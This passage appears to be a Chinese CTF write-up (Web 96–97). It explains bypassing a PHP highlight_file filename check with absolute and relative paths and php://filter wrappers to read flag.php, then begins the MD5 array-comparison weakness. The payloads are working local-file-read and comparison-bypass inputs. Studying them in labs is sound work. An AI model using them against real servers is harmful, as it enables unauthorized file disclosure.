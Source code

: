 



### 4、highlight_file 路径

**（Web 96）**

highlight_file 的参数可以是路径的

```php
<?php
highlight_file(__FILE__);

if (isset($_GET['u'])) {
    if ($_GET['u'] == 'flag.php') {
        die("no no no");
    } else {
        highlight_file($_GET['u']);
    }
}
?>
```

if 语句只比对字符串，highlight_file 可以写路径，故 payload 有多种解法：

```php
/var/www/html/flag.php              绝对路径
./flag.php                          相对路径
php://filter/resource=flag.php      php伪协议
php://filter/read=convert.base64-encode/resource=flag.php
```

```
payload：
1. ?u=php://filter/read=convert.base64-encode/resource=flag.php
2. ?u=php://filter/resource=flag.php
3. ?u=./flag.php 
4. ?u=/var/www/html/flag.php
```





### 5、md5 比较缺陷

#### 第一种

**（Web 97）**

PHP 中 hash 比较是存在缺陷的，MD5 无法处理数组，如果传入数组则返回 NULL，两个 NULL 是强相等的

```php
<?php
    if ($_POST['a'] != $_POST['b']) {
    if (md5($_POST['a']) === md5($_POST['b'])) {
        echo $flag;
    } else {
        print 'Wrong.';
    }
}
?>
```
